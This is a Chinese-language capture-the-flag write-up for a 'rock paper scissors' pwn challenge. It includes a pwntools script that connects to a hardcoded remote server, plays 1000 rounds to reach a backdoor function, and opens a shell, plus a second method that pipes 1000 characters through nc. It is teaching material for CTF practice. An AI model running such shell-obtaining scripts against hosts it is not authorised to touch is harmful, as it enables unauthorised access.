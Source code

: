 # **石头剪刀布：**

拿到可执行文件，拖到IDA里看源码：

首先是一个1000次的for循环

![image-20240520175408557](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20240520175408557.png)

我们可以发现当循环1000次执行后，才会执行我们的后门函数：

![image-20240520175547344](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20240520175547344.png)

所以现在关键就是如何让这1000次的循环运行完：

到这儿有两种解法：

**第一种**是基于pwntools写一个脚本，接受程序的输出，再向程序输入，主要考察对pwn工具pwntools的使用

脚本如下：（这个脚本是按照石头剪刀布的玩法进行相应的接收和输入，但其实石头剪刀的输赢是没关系的，只要循环1000次就可以了）

```
from pwn import *

p = remote("81.69.243.226", 60579)

# p = process("./rock_paper_scissors")

i = 0

# gdb.attach(p)

for i in range(0,1000):
    p.recvuntil("Computer: \n", drop=True)
    p.recvuntil("->", drop=True)
    str = p.recvline().strip() 
    print(str)
    if str == b'Rock':
        p.recvline(b'You')
        p.sendline("p")
    elif str == b'Scissor':
        p.recvline(b'You')
        p.sendline("r")
    elif str == b'Paper':
        p.recvline(b'You')
        p.sendline("s")
p.interactive()
```

![image-20240520181243938](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20240520181243938.png)

这里运行的时间会久一点，毕竟有1000次，可以看到我们不仅成功拿到shell，而且也赢了1000次的石头剪刀布✌

![image-20240520181350975](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20240520181350975.png)

**第二种：**就是直接nc连接，直接输入1000个字符，r,s,p都可以：

![image-20240520181542062](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20240520181542062.png)

![image-20240520181530551](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20240520181530551.png)

尽管输了，但还是拿到shell啦

![image-20240520180907888](C:\Users\Admin\AppData\Roaming\Typora\typora-user-images\image-20240520180907888.png)

